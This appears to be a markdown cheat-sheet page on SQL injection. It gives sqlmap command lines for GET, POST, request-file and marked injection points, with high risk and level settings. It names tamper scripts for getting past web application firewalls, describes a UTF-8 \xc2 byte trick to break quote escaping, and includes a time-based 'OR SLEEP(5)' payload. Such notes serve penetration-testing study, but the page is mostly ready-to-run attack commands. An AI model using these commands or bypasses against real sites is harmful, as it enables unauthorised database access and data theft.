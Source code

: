 +++
title = 'SQLi'
+++

## sqlmap

- https://github.com/sqlmapproject/sqlmap

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5

# headers
sqlmap --headers="HEADER"
```

## Temper

The ability to create payloads that can bypass waf

- https://github.com/m4ll0k/Atlas

Example:
```
--tamper="between,randomcase"
```

## Tricks

Sometimes sites append an extra (') character in injection. It is possible to bypass this behavior by abusing UTF-8. 
\xc2 asks for a follow up byte, the decoding of \xc2' (\xc2\x27) would result in a bypass.

## Sleep

```
randomtext%' OR SLEEP (5) #
```

## Articles

| URL | 
| --- |
| https://www.binarytides.com/sqlmap-hacking-tutorial/ |
| https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html|
